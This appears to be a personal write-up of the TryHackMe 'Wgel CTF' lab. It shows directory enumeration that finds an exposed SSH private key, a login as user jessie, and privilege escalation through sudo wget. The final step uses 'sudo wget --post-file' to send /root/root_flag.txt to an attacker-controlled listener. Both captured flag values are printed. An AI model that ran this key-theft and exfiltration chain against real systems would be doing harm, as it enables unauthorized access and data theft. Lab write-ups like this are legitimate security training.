# Matheus Jesus 16-05-2020

## Try Hack Me - [Wgel CTF](https://tryhackme.com/room/wgelctf)

### IP 10.10.234.52

### Enum

SSH on 22
WebServer on 80

### Http Server

On Firefox, browse IP

view-source

```html
 <!-- Jessie don't forget to udate the webiste -->
```

### GoBuster

```sh
cp usr/share/dirb/wordlists/vulns/apache.txt ./apache.txt
gobuster dir -u "http://10.10.234.52:80" -w apache.txt 
#/.htaccess (Status: 403)
#/.htpasswd (Status: 403)
#/index.html (Status: 200)
#/server-status (Status: 403)
#/.hta

gobuster dir -u "http://10.10.234.52:80/sitemap" -w /usr/share/dirb/wordlists/common.txt
#/.ssh
```

in /sitemap/.ssh there is an id_rsa for jessie

```sh
chmod 600 id_rsa
ssh jessie@10.10.234.52 -i id_rsa
#In
```

### On Host

```sh
cat /home/jessie/Documents/user_flag.txt
# 057c67131c3d5e42dd5cd3075b198ff6
```

### Privest

```sh
sudo -l
# Can use as root wget
```

on GTFOBins, there is a way of uploading files as root.
Maybe I can upload /root/root.txt file to {SELF_IP}.

```sh
# On remote
nano http
export URL=http://{LOCALIP}:8000/
export LFILE=/root/root_flag.txt
sudo wget --post-file=$LFILE $URL
chmod +x http

# On local
python httpServer.py 8000

# On remote
./http

# b1b968b37519ad1daa6408188649263d
```

Done!